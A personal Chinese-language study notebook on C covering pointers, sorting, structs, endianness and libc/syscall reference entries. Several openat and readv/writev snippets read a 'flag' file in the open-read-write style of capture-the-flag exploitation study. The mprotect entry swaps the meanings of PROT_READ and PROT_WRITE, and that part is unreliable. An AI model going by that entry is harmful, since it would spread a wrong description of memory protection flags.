





---

---

# C语言

#### 函数的递归调用

执行函数反复调用其自身的一种方式，每调用一次就进入新的一层，当最内层的函数执行完毕后，再一层一层地由里到外退出。

例子：求斐波拉契数列，求n！。

#### 数组作为函数参数

将数组引入函数批量处理数据。

例子：用函数将数组排序。

#### 指针的使用

指针是数据在内存中的地址，指针变量是变量存储了一份数据的指针.

可以在函数中呈递变量地址到函数中，通过对函数的操作进而对原来的值产生影响。

例子：用函数交换两个变量的值。

#### 算法通识

1 算法是一个定义好了的程序，用于执行给定的任务，正确且高效。

2 时间复杂度是判断算法效率（运行所需要的时间）。

3 加法、乘法不同的算法的时间复杂度，不同算法的时间复杂度的比较。

4 Karatsuba乘法中的分治（不断拆分数字，分成位数小的数字逐个解决）。

5 分治算法的不同情况的时间复杂度。

6 二分法排序一个数组：将数组不断二分，然后在两个2位数比较，最后合并。

7 在数组中求中位数（数组中找一个数与其它数比较大小，大的数分成一组小的数分成一组，通过不同组的数据大小来判断中位数在的区域）。

8 矩阵的乘法用分治优化算法，降低时间复杂度。

## 

#### 

学习取模的内容：在习题E中直接用pow算指数当数过大时会溢出，需要定义函数算指数并取模。


学习桶排序的内容。

#### 

学习字符串指针在函数中的应用。

#### 

学习malloc函数在C语言中的使用。

## 

#### 桶排序

桶排序每个桶存储元素，元素映射到各个对应的桶中，对每个桶中的元素进行排序，最后将非空桶中的元素逐个放入原序列中。

#### malloc函数的使用

malloc 向系统申请分配指定size个字节的内存空间，然后将这个空间的首地址范围给一个指针变量，使用完后最后由free释放。

#### 指针作为函数返回值

定义函数 ：数据类型 *函数名称（形参）

返回 ：return 指针变量；

#### 结构体

使用结构体（Struct）来存放一组不同类型的数据，其中可以包含多种变量，可以将现实中相关联的数据整合到一块。

例如：学生的姓名与学号这种不同类型的变量相结合。

定义：

`struct 结构体名{
  结构体所包含的变量
};`

 对（struct 结构体名.对象）这种变量赋值 运算 输出。

## 

#### 

学习二级指针:一个指针指向的是另外一个指针;

C语言随机数的生成。

数据结构

线性表

链表

树 二叉树

2021.11.06

学习快速排序与指针体结构

## 

####  随机数的生成：

使用 <stdlib.h>和 头文件中的 rand() 函数来生成随机数，但却无法真正随机，需要srand（）重新播种，同时也要用<time.h>头文件中的 time() 函数即可得到当前的时间。

#### 指针数组：

如果一个数组中的所有元素保存的都是指针，称它为指针数组

定义

```
dataType *arrayName[length];
```

**数组指针**

```
char *s[5]={"asa","sd","fsdaa","gsej","dfe"};
printf("%s",s[1]);
```


#### 二级指针

一个指针指向的是另外一个指针

```
int a =100;
int *p1 = &a;
int **p2 = &p1;
```

#### 快速排序：

基准数据找其正确索引位置的过程,通过一趟排序将要排序的数据分割成独立的两部分，其中一部分的所有数据都比另外一部分的所有数据都要小。然后再按此方法对这两部分数据分别进行快速排序，整个排序过程可以递归进行，以达到全部数据变成有序。

步骤
(1) 从数列中挑出一个基准值。
(2) 将所有比基准值小的摆放在基准前面，所有比基准值大的摆在基准的后面(相同的数可以到任一边)，在这个分区退出之后，该基准就处于数列的中间位置。
(3) 递归地把基准值前面的子数列和基准值后面的子数列进行排序。

#### 链表

链表实际上是线性表的链式存储结构，与数组不同的是，它是用一组任意的存储单元来存储线性表中的数据，存储单元不一定是连续的。

链表的每个元素称为一个节点，每个节点都可以存储在内存中的不同的位置。

#### 树

树结构是一种非线性存储结构，存储的是具有“一对多”关系，每个结点有零个或多个子结点；没有父结点的结点称为根结点；每一个非根结点有且只有一个父结点；除了根结点外，每个子结点可以分为多个不相交的子树

二叉树

树的任意节点至多包含两棵子树。按照某种次序依次访问二叉树中的所有结点，使得每个结点被访问一次，且仅被访问一次，就可获取树中的数据。

指针体结构

一个指针变量指向结构体

## 

2021.11.09

学习宏定义与宏定义命令

2021.11.10

学习带参数宏定义

#### 回顾指针

指针本身是记录内存地址的。
所以指针本身的大小，就是内存地址的长度。
内存地址的长度是跟CPU寻址空间有关的，32位的CPU就是4字节，64位CPU就是8字节

至于指针指向的数据，可以是任意结构体、对象，所以，指向的东西长度是不确定的。

指针变量占用空间大小等于地址宽度。
指针变量的大小和指向的类型无直接关联，基本都是一样的，等于地址宽度。
同一编译器下，同一编译选项下所有类型的指针变量大小都是一样的，指针变量的大小是编译器所对应的系统环境所决定的，或者说是由编译器决定的。
指针变量是指存放地址的变量。因地址的改变而做出指定性质的衡量变法。

指针定义类型是为了取值及指针运算。
一、指针的本质为内存地址。不管什么类型的指针，其本质都是内存地址。
二、定义指针类型，可以更方便的取值。
不管定义什么指针，保存什么样的地址，其目的都不是为了获取到这个地址值，而是为了访问地址上的数据。 定义了指针类型，就可以很方便的取得数据。
如果指针p类型为long*型，那么当使用`*p`取值时，就是取p值这个地址上，连续4个字节的数据值。
而如果p类型为char *型，那么使用`*p` 就是在p这个地址上的一个字节数据。
三、定义指针类型，方便指针运算。
使用指针，最常用的操作除取值为，就是指针的移动，也就是加减运算。通过指针加减，可以很方便的访问相邻或者间接相邻的同类单元。同样的p+1, 不同指针移动的实际内存字节数不同，其值为sizeof(指针指向类型)。
即 对于type * p; p+n的实际偏移地址值为sizeof(type)*n。


```c
#include<stdio.h>
int main(){
	short a[3]={0x1234,0x5678,0x3412};
    char *p=(char*)&a[0];
    for(int i=0;i<6;i++)
    printf("%p %x\n",(p+i),*(p+i));
    return 0;
}
```


```
/*如何区分大端和小端以及int*，char*，short*的本质区别*/ 
 
/*我们知道char，short，int，指针，long  
在16位平台上
char 8位，
short 16位， 
int 16位，
指针 16位，
long 32位，
在32位平台上 
char 8位，
short 16位， 
int 32位，
指针 32位，
long 32位，
long long 64位 
在64位平台上 
char 8位，
short 16位， 
int 32位，
指针 64位，
long 64位，
long long 64位 
不同平台存储这些值得方式有所不同，存储方式有大端和小端模式，
关于大小端的由来，我就不多说了。 
下面我们来看看大端小端的识别和，int*，char*，short*，的基本区别 
*/
 
#include <iostream>
using namespace std;
int main()
{
    /*定义16格式的int型数一枚*/
    int a = 0x12345678;      //其二进制为 0001 0010 0011 0100 0101 0110 0111 1000 
 
    short tx = (short)a;    //取出int型四个字节的最后16位的值，不论大小端模式存储，都是0x5678 
    cout<<tx<<endl;
 
    short b = *(short*)&a; 
    cout<<b<<endl;  
    /*可见输出结果是一模一样的，对于 short tx = (short)a; 很简单就是取出低16位的值，对于short b = *(short*)&a，这里先讲述一下
    short*的含义，表面上看short*是short类型的指针，short占2个字节，short*在内存中存储时占据4个字节，short*，int*，char*的本质区别在于使用*时候，取出地址中所存储的值。
    因为short占2个字节，所以 *(short*)执行步骤是取出short*的值，这个值是占据32位的一个地址，在执行*操作，*是从地址中取值，由于是short*的指针，说明了从起始地址（基本单位为1字节）开始，依次取出2个字节中存储的值，即 short b = *(short*)&a; 是取出从低位地址开始连续两个字节的值，如果是小端模式，那么从起始地址中取出的值就是0x5678，根据打印结果我们发现我的这个测试机是小端模式，
    
    总结：short*是在*(short*) 时候，是取出连续两个字节中的值，那么*（char*)的时候，便是取出地址中的值，不用在连续移位取值了，因为char是1字节，*(int*)的时候，是从首地址开始取出连续int型占据字节个数的字节数的值 
    */
    
    /*读到这里可能很好奇大端和小端有什么区别呢，
    大端模式就是在内存中高位存储低位字节的数值，小端模式就是在内存中低位存储低位字节的内容
    
    这两句话似乎难于理解或者很容易混淆，所以在这里举个例子，
    因为 a = 0x12345678;32位，4个字节，
    
    那么在小端模式中，加入存储a的起始地址值为：0x2345FF01，那么小端模式中存放方式：
    内存地址      字节值
    0x2345FF01     0x78
    0x2345FF02     0x56
    0x2345FF03     0x34
    0x2345FF04     0x12
    
    所谓的低位存储低位数据的值，就是起始一个字节存储的数据是数据的低位字节的值，数据的低位字节是最右一字节的为最低位 
    
    那么在大端模式中，加入存储a的起始地址值为：0x2345FF01，那么大端模式中存放方式：
    内存地址      字节值
    0x2345FF01     0x12    //低位地址存贮了数据的最高字节位 
    0x2345FF02     0x34
    0x2345FF03     0x56
    0x2345FF04     0x78
    所谓的高位存储低位数据的值，就是最后一个字节存储的数据是数据的低位字节的值，数据的低位字节是最右一字节的为最低位 
    */
    
    /*
    所以 short b = *(short*)&a;
    执行步骤为：
    首先，取出存储a值的32位的地址，4个字节，
    其次，转换为short*， 
    再次，*在取出地址中的值，这个值是2从地址开始，读取2个字节的长度的数值，
    如果是大端模式，首地址是低位存的是高位的值，高位值为1234,如果是小端模式 
    即后两个字节的值，后两个字节为0x5678，可见结果我这里是小端模式，大家不妨一试 
    */ 
   
    /*最后我们再来看一个例子，打印出int型数据的每个字节的数值的地址*/
    int i;
   // int num = 0x12345678;
    char* ptr = (char*) &a;
    for (int i = 0 ; i < 4; i++)
    {
        printf("%p\t%x\n", ptr, *ptr);
        ptr++;
    }
    
    system("pause");
    return 0;
} 
```


**指针与强制类型转换**


```c
//普通的转换
unsigned long c = 0xffffffff12345678;
printf("%lx\n", c);
c = (unsigned int)c; //高4字节舍弃，变为0x12345678
printf("%lx\n", c);


/*
//带指针的转换
unsigned long c = 0xffffffff12345678;
printf("%lx\n", c);
c = (unsigned int*)c; //c的值并不会发生改变，对于指针类型永远都是8字节（64位下）
printf("%p\n", c);		//%p 与其它的格式化字符并无区别--都是将变量的值打印出来
*/

//带指针的字符串转换
char buf[16] = "abcdefgh";
printf("%p, %p\n", buf, (size_t*)buf); //由于字符串都是存的地址，里面的值并不会发生改变，改变的只是对地址值中的取值方式
printf("%p, %p\n", buf, *(size_t*)buf); //以16进制形式输出字符串
printf("%lx, %lx\n", buf, *((size_t*)(buf + 1)));
printf("%lx, %lx\n", buf, *((size_t*)(buf) + 1));

```


#### 其它

##### 位运算

| 符号 | 描述 | 运算规则                                                     |
| :--- | :--- | :----------------------------------------------------------- |
| &    | 与   | 两个位都为1时，结果才为1                                     |
| \|   | 或   | 两个位都为0时，结果才为0                                     |
| ^    | 异或 | 两个位相同为0，相异为1                                       |
| ~    | 取反 | 0变1，1变0                                                   |
| <<   | 左移 | 各二进位全部左移若干位，高位丢弃，低位补0                    |
| >>   | 右移 | 各二进位全部右移若干位，对无符号数，高位补0，有符号数，各编译器处理方法不一样，有的补符号位（算术右移），有的补0（逻辑右移） |


##### 系统

**memset**

C 库函数 **void \*memset(void \*str, int c, size_t n)** 复制字符 **c**（一个无符号字符）到参数 **str** 所指向的字符串的前 **n** 个字符。

声明

下面是 memset() 函数的声明。

```
void *memset(void *str, int c, size_t n)
```

参数

- **str** -- 指向要填充的内存块。
- **c** -- 要被设置的值。该值以 int 形式传递，但是函数在填充内存块时是使用该值的无符号字符形式。
- **n** -- 要被设置为该值的字符数。

返回值

该值返回一个指向存储区 str 的指针。

**fopen**

FILE *fopen(char *filename, char *mode);

`filename`为文件名（包括文件路径），`mode`为打开方式，它们都是字符串。

| 模式 | 描述                                                         |
| :--- | :----------------------------------------------------------- |
| "r"  | 打开一个用于读取的文件。该文件必须存在。                     |
| "w"  | 创建一个用于写入的空文件。如果文件名称与已存在的文件相同，则会删除已有文件的内容，文件被视为一个新的空文件。 |
| "a"  | 追加到一个文件。写操作向文件末尾追加数据。如果文件不存在，则创建文件。 |
| "r+" | 打开一个用于更新的文件，可读取也可写入。该文件必须存在。     |
| "w+" | 创建一个用于读写的空文件。                                   |
| "a+" | 打开一个用于读取和追加的文件。                               |

如果希望接收 fopen() 的返回值，就需要定义一个 FILE 类型的指针。例如：

```
FILE *fp = fopen("demo.txt", "r");
```

表示以“只读”方式打开当前目录下的 demo.txt 文件，并使 fp 指向该文件，这样就可以通过 fp 来操作 demo.txt 了。fp 通常被称为文件指针。

打开文件出错时，fopen() 将返回一个空指针，也就是 NULL。


**openat函数**

```
#include <fcntl.h>
int open(const char *pathname, int flags);
int open(const char *pathname, int flags, mode_t mode);
int openat(int dirfd, const char *pathname, int flags);
int openat(int dirfd, const char *pathname, int flags, mode_t mode);
```

open和openat都是打开文件的系统调用，其主要参数为pathname，为文件打开路径。当传给函数的路径名是绝对路径时，二者无区别.（openat()自动忽略第一个参数dirfd）。当传给函数的是相对路径时，如果openat()函数的第一个参数dirfd是常量AT_FDCWD时，则其后的第二个参数路径名以当前工作目录为基址；否则以dirfd指定的目录文件描述符为基址。目录文件描述符的取得通常分为两步，先用opendir()函数获得对应的DIR结构的目录指针，再使用int dirfd(DIR*)函数将其转换成目录描述符，此时就可以作为openat()函数的第一个参数使用。


```
#include<stdio.h>
#include<fcntl.h>
int main(){
   int f;
   f = openat(4,"/flag",O_RDONLY);//最后文件描述符为3
}

#include<stdio.h>
#include<fcntl.h>
int main(){
   int f;
   f = openat(AT_FDCWD,"flag",O_RDONLY); //以相对路径打开文件
}
```


**sprintf**

sprintf()函数用于将格式化的数据写入字符串，其原型为：
  int sprintf(char *str, char * format [, argument, ...]);

【参数】str为要写入的字符串；format为格式化字符串，与printf()函数相同；argument为变量。

除了前两个参数类型固定外，后面可以接任意多个参数。而它的精华，显然就在第二个参数--格式化字符串--上。 printf()和sprintf()都使用格式化字符串来指定串的格式，在格式串内部使用一些以“%”开头的格式说明符（format specifications）来占据一个位置，在后边的变参列表中提供相应的变量，最终函数就会用相应位置的变量来替代那个说明符，产生一个调用者想要的字符串。


**atoi**

atoi() 函数用来将字符串转换成整数(int)，其原型为：
int atoi (const char * str);

【函数说明】atoi() 函数会扫描参数 str 字符串，跳过前面的空白字符，直到遇上数字或正负符号才开始做转换，而再遇到非数字或字符串结束时('\0')才结束转换，并将结果返回。

**atol**

C 库函数 **long int atol(const char \*str)** 把参数 **str** 所指向的字符串转换为一个长整数（类型为 long int 型）。

声明

下面是 atol() 函数的声明。

```
long int atol(const char *str)
```

参数

- **str** -- 要转换为长整数的字符串。

返回值

该函数返回转换后的长整数，如果没有执行有效的转换，则返回零。


**strtoul**

```
unsigned long int strtoul(const char *str, char **endptr, int base)
```

参数

- **str** -- 要转换为无符号长整数的字符串。
- **endptr** -- 对类型为 char* 的对象的引用，其值由函数设置为 str 中数值后的下一个字符。
- **base** -- 基数，必须介于 2 和 36（包含）之间，或者是特殊值 0。

返回值

把参数 **str** 所指向的字符串根据给定的 **base** 转换为一个无符号长整数（类型为 unsigned long int 型），base 必须介于 2 和 36（包含）之间，或者是特殊值 0。，如果没有执行有效的转换，则返回一个零值。


**read**

函数定义
`ssize_t read [1]  (int fd, void *buf, size_t count);`

read()会把参数fd所指的文件传送count 个字节到buf 指针所指的内存中。

返回值
成功返回读取的字节数，出错返回-1并设置errno，如果在调read之前已到达文件末尾，则这次read返回0。
参数
参数count是请求读取的字节数，读上来的数据保存在缓冲区buf中，同时文件的当前读写位置向后移。注意这个读写位置和使用C标准I/O库时的读写位置有可能不同，这个读写位置是记在内核中的，而使用C标准I/O库时的读写位置是用户空间I/O缓冲区中的位置。比如用fgetc读一个字节，fgetc有可能从内核中预读1024个字节到I/O缓冲区中，再返回第一个字节，这时该文件在内核中记录的读写位置是1024，而在FILE结构体中记录的读写位置是1。注意返回值类型是ssize_t，表示有符号的size_t，这样既可以返回正的字节数、0（表示到达文件末尾）也可以返回负值-1（表示出错）。
read函数返回时，返回值说明了buf中前多少个字节是刚读上来的。有些情况下，实际读到的字节数（返回值）会小于请求读的字节数count，例如：读常规文件时，在读到count个字节之前已到达文件末尾。例如，距文件末尾还有30个字节而请求读100个字节，则read返回30，下次read将返回0


**fread**

描述

C 库函数 **size_t fread(void \*ptr, size_t size, size_t nmemb, FILE \*stream)** 从给定流 **stream** 读取数据到 **ptr** 所指向的数组中。

声明

下面是 fread() 函数的声明。

```
size_t fread(void *ptr, size_t size, size_t nmemb, FILE *stream)
```

参数

- **ptr** -- 这是指向带有最小尺寸 *size\*nmemb* 字节的内存块的指针。
- **size** -- 这是要读取的每个元素的大小，以字节为单位。
- **nmemb** -- 这是元素的个数，每个元素的大小为 size 字节。
- **stream** -- 这是指向 FILE 对象的指针，该 FILE 对象指定了一个输入流。

返回值

成功读取的元素总数会以 size_t 对象返回，size_t 对象是一个整型数据类型。如果总数与 nmemb 参数不同，则可能发生了一个错误或者到达了文件末尾。

**write**

函数定义：ssize_t write (int fd, const void * buf, size_t count); 

函数说明：write()会把参数buf所指的内存写入count个字节到参数fd所指的文件内。

返回值：如果顺利write()会返回实际写入的字节数（len）。当有错误发生时则返回-1，错误代码存入errno中。


**fgets**

`char *fgets(char *str, int n, FILE *stream)` 从指定的流 stream 读取一行，并把它存储在 str 所指向的字符串内。当读取 (n-1) 个字符时，或者读取到换行符时，或者到达文件末尾时，它会停止，具体视情况而定。

**声明**
下面是 fgets() 函数的声明。

`char *fgets(char *str, int n, FILE *stream)`
参数
str -- 这是指向一个字符数组的指针，该数组存储了要读取的字符串。
n -- 这是要读取的最大字符数（包括最后的空字符）。通常是使用以 str 传递的数组长度。
stream -- 这是指向 FILE 对象的指针，该 FILE 对象标识了要从中读取字符的流。
返回值
如果成功，该函数返回相同的 str 参数。如果到达文件末尾或者没有读取到任何字符，str 的内容保持不变，并返回一个空指针。

如果发生错误，返回一个空指针。


**readv和writev函数**

readv和writev函数用于在一次函数调用中读、写多个非连续缓冲区。有时也将这两个函数称为散布读（scatter read）和聚集写（gather write）。

```c
ssize_t readv(int fd, const struct iovec *vector, int count); 
ssize_t writev(int fd, const struct iovec *vector, int count);

其中，fd参数是被操作的文件描述符。 vector参数是iovec结构体：

struct iovec {
    void *iov_base; /*指向一个缓冲区，这个缓冲区是存放readv()所接收的数据或 //writev()将要发送的数据*/
    size_t iov_len; /*接收的最大长度以及实际写入的长度*/
};

count参数是vector数组的长度，即有多少块内存数据需要从fd读出或写到fd


#include<stdio.h>
#include<fcntl.h>
#include<sys/uio.h>
int main(){
    char buf[0x30];
    struct iovec io[1];
    io[0].iov_base = buf;
    io[0].iov_len = 0x30;
    int fd = open("flag",O_RDONLY);
    readv(fd,io,1);
    writev(1,io,1);
}
```


**mprotect**

mprotect()函数可以修改调用进程内存页的保护属性，如果调用进程尝试以违反保护属性的方式访问该内存，则内核会发出一个SIGSEGV信号给该进程。

#include <sys/mman.h>
`int mprotect(void *addr, size_t len, int prot);`
addr：修改保护属性区域的起始地址，addr必须是一个内存页的起始地址，简而言之为页大小（一般是 4KB == 4096字节）整数倍。
len：被修改保护属性区域的长度,最好为页大小整数倍。修改区域范围[addr, addr+len-1]。
prot：prot 的取值如下，通过 `|` 可以将几个属性结合使用（值相加）：

- PROT_READ：可写，值为 1
- PROT_WRITE：可读， 值为 2
- PROT_EXEC：可执行，值为 4
- PROT_NONE：不允许访问，值为 0

返回值：0；成功，-1；失败（并且errno被设置）
1）EACCES：无法设置内存段的保护属性。当通过 mmap(2) 映射一个文件为只读权限时，接着使用 mprotect() 标志为 PROT_WRITE这种情况就会发生。
2）EINVAL：addr不是有效指针，或者不是系统页大小的倍数。
3）ENOMEM：内核内部的结构体无法分配。
0x7


**calloc**

calloc() 函数用来动态地分配内存空间并初始化为 0，其原型为：
  void* calloc (size_t num, size_t size);

calloc() 在内存中动态地分配 num 个长度为 size 的连续空间，并将每一个字节都初始化为 0。所以它的结果是分配了 num*size 个字节长度的内存空间，并且每个字节的值都是0。

【返回值】分配成功返回指向该内存的地址，失败则返回 NULL。

如果 size 的值为 0，那么返回值会因标准库实现的不同而不同，可能是 NULL，也可能不是，但返回的指针不应该再次被引用。

calloc() 与 malloc()的一个重要区别是：calloc() 在动态分配完内存后，自动初始化该内存空间为零，而 malloc() 不初始化，里边数据是未知的垃圾数据。下面的两种写法是等价的：

```
// calloc() 分配内存空间并初始化
char *str1 = (char *)calloc(10, 2);
// malloc() 分配内存空间并用 memset() 初始化
char *str2 = (char *)malloc(20);
memset(str2, 0, 20);
```


**realloc**

C 标准库 - <stdlib.h>

描述
C 库函数 void *realloc(void *ptr, size_t size) 尝试重新调整之前调用 malloc 或 calloc 所分配的 ptr 所指向的内存块的大小。

声明
下面是 realloc() 函数的声明。

`void *realloc(void *ptr, size_t size)`
参数
ptr -- 指针指向一个要重新分配内存的内存块，该内存块之前是通过调用 malloc、calloc 或 realloc 进行分配内存的。如果为空指针，则会分配一个新的内存块，且函数返回一个指向它的指针。
size -- 内存块的新的大小，以字节为单位。如果大小为 0，且 ptr 指向一个已存在的内存块，则 ptr 所指向的内存块会被释放，并返回一个空指针。
返回值
该函数返回一个指针 ，指向重新分配大小的内存。如果请求失败，则返回 NULL。


**setbuf**


**strncmp**

C 库函数 **int strncmp(const char \*str1, const char \*str2, size_t n)** 把 **str1** 和 **str2** 进行比较，最多比较前 **n** 个字节。

下面是 strncmp() 函数的声明。

```
int strncmp(const char *str1, const char *str2, size_t n)
```

- **str1** -- 要进行比较的第一个字符串。
- **str2** -- 要进行比较的第二个字符串。
- **n** -- 要比较的最大字符数。

该函数返回值如下：

- 如果返回值 < 0，则表示 str1 小于 str2。
- 如果返回值 > 0，则表示 str1 大于 str2。
- 如果返回值 = 0，则表示 str1 等于 str2。

**strchr**

C 库函数 **char \*strchr(const char \*str, int c)** 在参数 **str** 所指向的字符串中搜索第一次出现字符 **c**（一个无符号字符）的位置。

声明

下面是 strchr() 函数的声明。

```
char *strchr(const char *str, int c)
```

参数

- **str** -- 要被检索的 C 字符串。
- **c** -- 在 str 中要搜索的字符。

返回值

该函数返回在字符串 str 中第一次出现字符 c 的位置，如果未找到该字符则返回 NULL。

**mmap**

mmap() 系统调用能够将文件映射到内存空间，然后可以通过读写内存来读写文件。我们先来看看 mmap() 系统调用的用法吧，mmap() 函数的原型如下：

```
#include <sys/mman.h> 
void *mmap(void *start, size_t length, int prot, int flags, int fd, off_t offset);
```

参数说明：

- start：指定要映射的内存地址，一般设置为 NULL 让操作系统自动选择合适的内存地址。
- length：映射地址空间的字节数，它从被映射文件开头 offset 个字节开始算起。
- prot：指定共享内存的访问权限。可取如下几个值的可选：PROT_READ（可读）, PROT_WRITE（可写）, PROT_EXEC（可执行）, PROT_NONE（不可访问）。
- flags：由以下几个常值指定：MAP_SHARED（共享的） MAP_PRIVATE（私有的）, MAP_FIXED（表示必须使用 start 参数作为开始地址，如果失败不进行修正），其中，MAP_SHARED , MAP_PRIVATE必选其一，而 MAP_FIXED 则不推荐使用。
- fd：表示要映射的文件句柄。
- offset：表示映射文件的偏移量，一般设置为 0 表示从文件头部开始映射。


**mallopt**

```
 #include <malloc.h>

       int mallopt(int param, int value);
```

mallopt函数可以控制 内存分配的函数：

int mallopt(int param,int value)//控制 内存分配的函数 。

